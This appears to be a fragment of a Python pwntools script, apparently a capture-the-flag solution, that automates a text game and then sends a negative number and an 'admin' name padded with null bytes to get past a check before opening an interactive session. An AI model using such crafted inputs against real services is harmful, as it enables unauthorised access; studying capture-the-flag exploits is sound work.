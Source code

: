 ```python
    if result.endswith("ass\n"):
        p.sendline("3")
        state = 0
    elif result.endswith("throw\n"):
        if state == 1 and found == 1 and sent <= 4:
            state = 0
            sent += 1
            p.sendline("-5")
        else:
            if result.find("1 Attack") != -1:
                p.sendline("0")
                found = 1
            elif result.find("2 Attack") != -1:
                p.sendline("1")
            elif result.find("3 Attack") != -1:
                p.sendline("3")
            elif result.find("4 Attack") != -1:
                p.sendline("4")
            else:
                p.sendline("1")
            state = 1
    elif result.find("guard") != -1:
        p.sendline("0")
        state = 0
    result = p.recv()
    print result

p.sendline("1")
p.sendlineafter("?","I")
p.sendlineafter("name","admin"+"\x00"*4)
p.interactive()
```
